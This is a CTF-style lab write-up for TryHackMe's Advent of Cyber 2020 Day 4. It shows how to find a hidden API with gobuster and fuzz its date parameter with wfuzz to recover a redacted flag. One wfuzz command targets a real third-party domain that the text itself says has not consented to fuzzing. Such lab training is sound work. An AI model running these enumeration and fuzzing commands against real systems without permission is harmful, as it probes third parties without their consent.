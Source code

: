 # Day 4 - Santa's watching

Our malicious, despicable, vile, cruel, contemptuous, evil hacker has defaced Elf's forums and completely removed the login page! However, we may still have access to the API. The sysadmin also told us that the API creates logs using dates with a format of **YYYYMMDD**.

Recommended list: [big.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/big.txt)

- Deploy your AttackBox (the blue "Start AttackBox" button) and the tasks machine (green button on this task) if you haven't already. Once both have deployed, open FireFox on the AttackBox and copy/paste the machines IP (10.10.135.56) into the browser search bar.

	  no answer needed
	
	If you navigate with your browser to the <TARGET_IP> you should see this page:


	![site](https://github.com/edoardottt/tryhackme-ctf/tree/main/Advent-of-Cyber-2020/Day-04-Santa's_watching/site.png)

- Given the URL "http://shibes.xyz/api.php", what would the entire wfuzz command look like to query the "breed" parameter using the wordlist "big.txt" (assume that "big.txt" is in your current directory)
**Note: For legal reasons, do not actually run this command as the site in question has not consented to being fuzzed!**

	- `wfuzz -c -z file,big.txt http://shibes.xyz/api.php?breed=FUZZ`

- Use GoBuster (against the target you deployed -- not the shibes.xyz domain) to find the API directory. What file is there?

	- `gobuster dir -u <TARGET_IP> -w big.txt`
	- You will find a directory and the a php file.

- Fuzz the date parameter on the file you found in the API directory. What is the flag displayed in the correct post?

	- Execute the python file with `python3 create_list.py`. It will create a list for you with format `YYYYMMDD`.
	- `wfuzz -c -z file,YYYYMMDD-list.txt -d "date=FUZZ" --hw 0 http://<TARGET_IP>/api/site-log.php`
	- Executing this command, it will try to fuzz the date parameter, and I've inserted the --hw parameter set to 0 because I tried few times and I saw the incorrect answers contains no words.
	- The only respone you get is from one word. Just append that word, let's say is YYYYMMDD. Go to browser and query `http://<TARGET_IP>/api/site-log.php?date=YYYYMMDD`.
	- `THM{********}`

# see you ...

